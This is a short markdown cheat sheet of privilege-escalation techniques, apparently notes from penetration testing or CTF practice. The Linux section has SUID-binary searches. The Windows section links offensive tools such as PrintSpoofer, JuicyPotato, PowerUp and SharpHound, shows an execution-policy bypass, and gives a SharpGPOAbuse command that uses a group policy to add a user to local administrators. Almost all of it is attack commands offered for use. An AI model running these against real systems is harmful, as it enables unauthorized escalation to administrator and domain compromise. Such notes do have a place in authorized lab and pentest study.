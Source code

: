 # Linux Privesc
```sudo -l
```
```
find / -type f -perm -u=s 2>/dev/null
```
```
find / -type f -perm -4000 2>/dev/null
```
# Window Privesc
## PrintSpoofer.exe
```
https://github.com/itm4n/PrintSpoofer
```
## JuicyPotato
```
https://github.com/ohpe/juicy-potato
```
## Powerup
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```
## Powerview
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
## SharpHound
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```
## PowerGPOAbuse
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```
## SharpGPOAbuse
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
